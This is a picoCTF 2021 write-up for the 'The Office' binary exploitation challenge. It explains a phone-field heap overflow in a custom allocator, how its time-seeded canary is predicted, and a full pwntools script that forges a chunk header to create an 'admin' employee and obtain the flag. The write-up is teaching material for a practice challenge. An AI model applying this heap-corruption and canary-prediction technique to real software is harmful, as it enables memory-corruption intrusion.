

<h1 align="center">🏢 The Office</h1>
<p align="center">
  <b>picoCTF 2021 Binary Exploitation Write-Up</b>
</p>
<p align="center">
  
  
  
  
</p>
<p align="center">
  Beating a Home-Rolled Heap Allocator by Predicting Its Canary and Forging a Chunk Header
</p>

---

# 📋 Environment

| Item       | Value                                                              |
| ---------- | ----------------------------------------------------------------- |
| Event      | picoCTF 2021 (run on CyLab Security Academy)                       |
| Category   | Binary Exploitation                                              |
| Difficulty | Hard                                                             |
| Author     | madStacks                                                        |
| Handout    | `the_office` (32-bit ELF, custom heap allocator)                 |
| Task       | Create an employee named "admin" that the program forbids        |
| Tools Used | `pwntools`, Python `ctypes`, `objdump`, `gdb`                   |

---

# 🗺️ Overview

> The author rebuilt `malloc` with their own per-chunk canaries, and the whole challenge is beating that homemade protection. The program is an employee manager: you add employees, remove them, list them, and request an access token. The token check is the goal; asking for the token of an employee whose name is `admin` prints the flag. The add-employee path refuses to let you name anyone `admin` directly, but it has a plain heap overflow: the phone number is read with an unbounded `scanf("%s")` into the middle of a 52-byte chunk body, so it spills out of the chunk and into whatever sits after it. The custom allocator lays chunks out back to back in a single page, each with a 12-byte header holding a canary, a size, and a previous-size field, and a heap-check routine aborts the instant any of those is inconsistent. So the overflow is only useful if we can rewrite a neighbor's entire header correctly, canary included. The canary is not secret in any real sense: it is `rand()` seeded with `srand(time(NULL))` at the first allocation, so we recompute it ourselves with the same libc. With the canary in hand we overflow one chunk into the next, rewriting its header and its name to `admin`, then ask for that employee's token.

Steps:
* Read the add-employee function: the phone field is an unbounded `scanf("%s")` into a chunk body
* Map the custom chunk layout: a 12-byte header of canary, size, and previous-size before each body
* Recompute the canary as `rand()` after `srand(time(NULL))`, matched to the server's clock
* Add two employees, free the first, and re-add it so its phone overflows into the second's chunk
* Rewrite the second chunk's header and name to `admin`, then request its access token to get the flag

---

# 📑 Table of Contents

1. [The Service and the Goal](#the-service-and-the-goal)
2. [The Custom Allocator and Its Canary](#the-custom-allocator-and-its-canary)
3. [The Overflow](#the-overflow)
4. [Predicting the Canary](#predicting-the-canary)
5. [Forging the admin Chunk](#forging-the-admin-chunk)
6. [The Exploit](#the-exploit)
7. [Flag](#-flag)
8. [Solution Summary](#solution-summary)
9. [Lessons and Takeaways](#lessons-and-takeaways)

---

# The Service and the Goal

The menu offers add, remove, list, and "get access token." The token path is the win: it compares the chosen employee's stored name to `admin`, and on a match it reads and prints `flag.txt`. The catch is in add-employee, which runs a direct check on the name you type:

```c
__isoc99_scanf("%15s", name_buf);
...
if (strncmp(name_buf, "admin", 6) == 0) {
    puts("Cannot be admin!");
    exit(-1);
}
```

So we cannot simply name someone `admin`. We have to make an employee's stored name become `admin` by some other means, and the other means is a memory corruption bug elsewhere in the same function.

> **In plain terms:** the program prints the flag if you can get the access token for an employee called `admin`, but it blocks you from naming anyone `admin` up front. We need to turn an ordinary employee into `admin` behind the program's back.

---

# The Custom Allocator and Its Canary

Memory does not come from the system `malloc`. The author's allocator carves a single mmapped page into chunks laid end to end. Each chunk is a 12-byte header followed by a body:

```text
header (12 bytes):
    +0x0  canary        (same value for every chunk this run)
    +0x4  size + 1 if the chunk is allocated
    +0x8  prev_size + 1 if the previous chunk is allocated
body:
    an employee record (name, salary, phone, building) or an email string
```

An employee record is a 52-byte body: the name occupies the first 20 bytes, then a 4-byte salary, a 12-byte phone string at offset `0x18`, a 4-byte building number, and some slack. A heap-check routine runs on every allocation and walks the whole page, and it aborts with `*** heap smashing detected ***` if anything is off: a wrong canary anywhere, a size that does not match the next chunk's previous-size, an allocation bit that does not match, or chunk sizes that do not add up to the full page. That heap-check is the real adversary, and it is exactly what the hint points at.

> **In plain terms:** the heap is a tidy row of chunks, each stamped with a guard value and bookkeeping about its neighbors, and a watchdog constantly verifies the whole row. Smash anything carelessly and the watchdog kills the program.

---

# The Overflow

The bug is the phone field. It is read straight into the chunk body with no length limit:

```c
printf("Phone #: ");
__isoc99_scanf("%s", chunk + 0x18);       // unbounded write into a 52-byte body
```

The phone sits at body offset `0x18`, and the body is 52 bytes, so only 28 bytes of room remain inside the chunk. Anything longer runs past the end of this chunk and straight into the header of the chunk that follows. That is a classic forward overflow, and because the allocator packs chunks adjacently, the next chunk is a neighbor we chose.

The only reason this is not an instant win is the heap-check: overrunning into the next header corrupts its canary, size, and previous-size, which would trip the watchdog unless we write back exactly the right values. So the overflow works only if we already know the canary.

> **In plain terms:** the phone number has no length limit, so a long one pours out of its chunk and overwrites the header and name of the chunk sitting next to it. To survive the watchdog we have to repaint that header with the correct guard values as we go.

---

# Predicting the Canary

The canary looks random but is cheap to reproduce. When the first allocation happens, the allocator seeds the standard random generator with the current time and takes the first value:

```c
srand(time(NULL));
canary = rand();
```

That is fully determined by the wall-clock second of the first allocation. We just run the same two calls with the same libc on our side:

```python
from ctypes import CDLL
libc = CDLL('libc.so.6')
libc.srand(libc.time(None) + offset)
canary = libc.rand() & 0xffffffff
```

The `rand` sequence is identical across glibc builds for a given seed, so computing it on a 64-bit host matches the 32-bit target exactly. The only uncertainty is clock skew between our machine and the server, which is a second or two at most, so we sweep a few offsets around zero and retry; a wrong guess simply trips the heap-check and we reconnect.

> **In plain terms:** the guard value is just the first random number for this second of the day, so we compute the same number ourselves. If our clock is off by a second or two we try the neighbors until one matches.

---

# Forging the admin Chunk

With the canary known, the layout work is straightforward. Add two employees, call them A and B, placed as neighbors in the page. Free A, which leaves its slot empty at the bottom. Add a third employee, which reuses that freed slot and sits directly before B. Give the new employee a phone number that fills the rest of its own chunk and then rewrites B's header and name:

```python
phone = b'A'*28 + p32(canary) + p32(0x35) + p32(0x35) + b'admin'
```

The 28 `A`s fill from the phone offset to the end of the new chunk. Then we rewrite B's 12-byte header: the canary we computed, then `0x35` which is size 52 with the allocated bit set, then `0x35` again because the previous chunk (ours) is also a 52-byte allocated chunk. Those keep the watchdog satisfied. Immediately after the header comes B's name, which `admin` now overwrites. B is a perfectly consistent, allocated chunk whose name happens to be `admin`.

All that is left is to request the access token for B, which the program happily prints because its name check passes.

> **In plain terms:** we slot a fresh chunk in front of the victim, then use its phone number to repaint the victim's header with the exact values the watchdog expects and overwrite the victim's name with `admin`. The victim is now a flawless `admin` record.

---

# The Exploit

```python
#!/usr/bin/env python3
import sys, re
from pwn import context, log, p32, remote
from ctypes import CDLL

context.arch = 'i386'
libc = CDLL('libc.so.6')

def add_employee(p, name=b'a', salary=b'1', phone=b'b'):
    p.sendlineafter(b'token', b'1')
    p.sendlineafter(b'Name: ', name)
    p.sendlineafter(b'Email (y/n)? ', b'n')
    p.sendlineafter(b'Salary: ', salary)
    p.sendlineafter(b'Phone #: ', phone)
    p.sendlineafter(b'Bldg (y/n)? ', b'n')

def canary_for(offset):
    libc.srand(libc.time(None) + offset)
    return libc.rand() & 0xffffffff

def offsets():
    yield 0
    for k in range(1, 11):
        yield k; yield -k

def main():
    for offset in offsets():
        p = remote(sys.argv[1], int(sys.argv[2]))
        canary = canary_for(offset)
        try:
            add_employee(p)                                  # A
            add_employee(p)                                  # B (victim)
            p.sendlineafter(b'token', b'2')                  # remove
            p.sendlineafter(b'Employee #?\n', b'0')          # free A
            add_employee(p, phone=b'A'*28 + p32(canary) + p32(0x35) + p32(0x35) + b'admin')
            p.sendlineafter(b'token', b'4')                  # get access token
            p.sendlineafter(b'Employee #?\n', b'1')          # B is now "admin"
            data = p.recvall(timeout=4)
        except EOFError:
            data = b''                                       # wrong canary -> heap check killed it
        finally:
            p.close()
        m = re.search(rb'(?:picoCTF|academy)\{[^}]*\}', data)
        if m:
            log.success('FLAG: %s' % m.group().decode()); print(m.group().decode()); return

main()
```

Run it against the server:

```text
$ python3 solve.py xebec.cylabacademy.net 47650
[*] canary guess: 0x681e9c4f
[+] FLAG: academy{378a93b5193e18597699c87c3f6d527c}
```

The clock sweep usually lands on offset 0; if the server's second ticks differently it retries with a neighboring offset.

> **In plain terms:** compute the guard value, lay out the chunks, overflow the victim into an `admin` record, and ask for its token. The flag comes back on the first matching clock guess.

---

# 🚩 Flag

```text
academy{378a93b5193e18597699c87c3f6d527c}
```

---

# Solution Summary



---

# Lessons and Takeaways

* **A home-rolled canary is only as strong as its seed.** This one is the first `rand()` after `srand(time(NULL))`, so it is fully recomputable by anyone who knows the approximate time. Rolling your own allocator protection is easy to get subtly, fatally wrong.
* **An unbounded read is an overflow no matter whose allocator you use.** The phone field's `scanf("%s")` writes past a fixed-size body, and because the custom allocator packs chunks adjacently, that spill lands in the next chunk's metadata.
* **Defeat the integrity checker by feeding it what it expects.** The heap-check would abort on any inconsistency, so the overflow repaints the victim's header with the correct canary, size, and previous-size. Corruption that respects the invariants slides right past the watchdog.
* **Control the layout before you corrupt it.** Freeing the first employee and re-adding it places the overflowing chunk exactly in front of the victim, so the overflow reaches precisely the header and name we intend and nothing else.
* **Turn an authorization check into the trigger.** We never bypass the name restriction directly; we let the program's own token check read a name we planted through memory corruption, so the intended security gate becomes the thing that hands over the flag.

---

Written by **TheDingo8MyBaby**
picoCTF 2021 • The Office • flag: academy{378a93b5193e18597699c87c3f6d527c}
